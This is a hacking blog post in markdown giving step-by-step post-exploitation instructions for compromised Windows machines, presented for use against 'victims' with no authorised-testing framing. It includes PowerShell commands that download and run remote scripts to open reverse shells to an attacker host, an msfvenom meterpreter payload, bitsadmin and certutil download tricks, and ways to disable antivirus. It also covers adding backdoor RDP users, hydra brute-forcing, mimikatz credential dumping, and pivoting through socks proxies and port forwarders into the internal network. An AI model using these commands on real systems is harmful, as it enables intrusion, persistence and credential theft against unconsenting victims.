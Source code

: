 ```yaml
---
title: After Getting The Shell
date: 2018-11-02 11:55:13
categories: Hacking
tags: [PowerShell, Metasploit]
description: It seems that it's getting more and more popular that everyone would like to scan the whole intranet when he takes down one of the other people's machines. So what to do next after getting the shell of a windows system? Some ideas about that. 
---
```


Here gives two methods to trigger a windows reverse shell with PowerShell, remember to bypass the PowerShell security policy before you execute PowerShell command. (https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)

For attacker:
```shell
nc -lvp 6666
```

For target:
```shell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');
powercat -c x.x.x.x -p 6666 -e cmd
```
```shell
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');
Invoke-PowerShellTcp -Reverse -IPAddress x.x.x.x -port 6666
```

Sometimes the protection system on the server will block PowerShell from downloading anything, there are two tools to help you:
```shell
bitsadmin /transfer myDownloadJob /download /priority normal http://downloadsrv/10mb.zip c:\10mb.zip
```
```shell
certutil -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip
```

Most of the time you will face three situations:

### You don't have administrator privilege, but there is no protection system.
If you're lucky enough, there's no anti-virus software in the system, you can trigger a reverse Metasploit shell in any method you like:
In an easy way:

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f exe > a.exe
```
All you need to do is uploading the payload and execute it. When it comes to the question of how to upload the payload, the answer is that you must forward your local port to the public network with the help of FRP(https://github.com/fatedier/frp) which is a powerful tool, and you must have a VPS to achieve that. Even if you don't have a VPS, you can use ngrok to make it work.

### There is protection system in the server, but you have administrator privilege.
If you're not so lucky, maybe you should find some methods such as veil-evasion to obfuscate your payload. In worse situation, your payload which has been obfuscated was deleted by the antivirus as well. you'd better consider killing the process of the antivirus.

Sometimes it's not easy to kill the process of antivirus, you can just log into the system by the remote desktop protocol. The first step is to add a new user to the system:

```shell
net user Name Pass /add
```
Then you should add this user to the allowed rdp accounts from the commandline:

```shell
net localgroup "Remote Desktop Users" domain\user /add
```

If you want to add a non-domain user, it's easier:

```shell
net localgroup "Remote Desktop Users" user /add
```
But you cannot do crazy things with this account, but you can identify which protection system the server use and shutdown it or bypass it. It's not done yet if you want to execute some high-privilege command, privilege escalation could be taken into consideration.

Hydra is a powerful tool if you have a powerful wordlist:
```shell
hydra x.x.x.x rdp -L users.txt -P wordlist.txt -v
```
Mimikatz is also a good choice to dump the username and password from memory of the server. But most of the time mimikatz will be killed by the protection system.

### You don't have the administrator privilege, and the server has a protection system.

Shutdown your computer and go to sleep unless you have some 0day vulnerabilities.

---

There are some ways to help you to go deep and you can treat your victim as a pivot to find out more vulnerable hosts within the intranet.

Firstly try to add the routing rules of the target to your meterpreter shell. An msf built-in module "autoroute" and is convenient. (https://www.offensive-security.com/metasploit-unleashed/proxytunnels/)

![](https://media.githubusercontent.com/media/recursively/recursively.github.io/hexo/source/pics/1-1.png)

```shell
meterpreter > run post/multi/manage/autoroute
```
![](https://media.githubusercontent.com/media/recursively/recursively.github.io/hexo/source/pics/1-2.png)

You can enumerate hosts by performing an ARP scan:

```shell
meterpreter > run post/windows/gather/arp_scanner rhosts=192.168.5.1/24
```
![](https://media.githubusercontent.com/media/recursively/recursively.github.io/hexo/source/pics/1-3.png)

Adding routing rule is not always working well, you can try the socks4a module in meterpreter:

```shell
use anxiliary/server/socks4a
set srvport 1080
run
```
![](https://media.githubusercontent.com/media/recursively/recursively.github.io/hexo/source/pics/1-4.png)

If it's Linux in your local machine, you can use proxychains to set the socks5 proxy.
Getting proxychains installed:
```shell
apt install proxychains-ng 
```
Add the following content into the /etc/proxychains.conf file:
```shell
socks4 127.0.0.1 1080
```
Then you can use socks proxy to scan the victim's intranet:
```shell
proxychains4 nmap -sT -Pn -open 192.168.5.0/24
```
I have tried so many times to find out all the machines in the victim's intranet but I was usually failed. It just works for few times and the process is too slow. Maybe nmap is the reason for this problem, it works well when I use proxychains to get information from other hosts within the same intranet.

Or you can use EarthWorm(http://rootkiter.com/EarthWorm/) to forward the victim machine's port to your VPS and use proxy
chains or proxifier in your local machine:
For your VPS:
```shell
./ew -s rcsocks -l 1080 -e 1024
```
The command above means your VPS listens the port 1080, 1024  and waits for attacker connect to the port 1080, the victi
m connects to the port 1024.

For target:
```shell
ew.exe -s rssocks -d x.x.x.x -e 1024
```
The argument -d is the IP address of your VPS.

Add the following content into the /etc/proxychains.conf file:
```shell
socks5 x.x.x.x 1080
```
Use proxychains to scan rest of the hosts:
```shell
proxychains4 nmap -sT -Pn -open 192.168.5.0/24
```

If you need ports forwarding, it's also available in meterpreter: (https://www.offensive-security.com/metasploit-unleashed/portfwd/)
```shell
meterpreter > portfwd add –l 3389 –p 3389 –r 192.168.5.100
```
Another popular tool is lcx.exe:
For attacker:
```shell
lcx -listen 2222 3333
```
For target:
```shell
lcx -slave x.x.x.x 2222 127.0.0.1 3389
```
The IP x.x.x.x is the address of your public VPS. Finally execute **mstsc x.x.x.x:3333** to connect to the remote desktop of the target.

There are many other useful tools except for the tools I mentioned above, such as netcat, ncat and ssf. You can make a choice among them as you like.